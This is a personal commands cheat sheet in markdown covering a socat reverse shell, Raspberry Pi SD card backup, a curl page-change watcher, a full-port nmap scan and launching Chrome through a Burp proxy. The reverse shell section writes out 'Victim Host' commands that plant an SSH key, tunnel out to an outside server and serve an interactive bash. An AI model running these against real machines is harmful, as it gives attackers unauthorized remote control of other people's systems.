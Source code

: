 ```yaml
---
title: Commands Cheat Sheet
lang: en-US
description: A running list of the commands I use frequently, so I can quickly acess them 😀.  Raspberry Pi SD Card Backups, Chrome for Burp and NMAP
date: "2020-06-14"
---
```


# Commands Cheat Sheet
A running list of the commands I use frequently, so I can quickly acess them 😀

## Reverse Shells
Example Server (To be replaced with yours): `rj3.me`
### `socat`

#### Victim Host
```bash
# Setup machine to connect back to C2
echo "|1|<C2 Host Fingerprint>" > ~/.ssh/known_hosts && chmod 0600 ~/.ssh/known_hosts
RUN echo "<BASE64 SSH key>" | base64 -d > ~/.ssh/id_rsa
RUN chmod 0600 ~/.ssh/id_rsa
ssh -f -N -T -R2203:localhost:9996 username@rj3.me
while true; do
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:9996
done
```
#### Remote Host
```bash
# Ensure that port 9996 is open
socat file:`tty`,raw,echo=0 tcp:localhost:2203
```


## Mac
### Backup Raspberry Pi SD Card
```bash
diskutil list # Find disk you want to copy
sudo dd if=/dev/rdisk2 bs=1m | gzip > ./tmp/pi_backup.gz # Change the disk number to be the disk to copy
```
### Check for webpage updates
```bash
#!/bin/bash
# Script to use when watching a page for a specific change
URL="https://rj3.me"
TEXT_TO_MATCH="Robert"

while true
do
	curl -v $URL | grep "$TEXT_TO_MATCH" &> /dev/null && osascript -e 'display notification "Matched!"'
    sleep 10
done
```

### Nmap

```bash
nmap -v -o -p 1-65535 #host
```

### Launch Chrome for Burp
Prereq: All Chrome instances need to be fully closed(`cmd+q`) before running this, otherwise the settings won't take.
```bash
/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --proxy-server=http://localhost:8080 #--ignore-certificate-errors
```
*Note: Ignore certificate errors can be used if you can't install the Burp CA, but it is not recommended.*

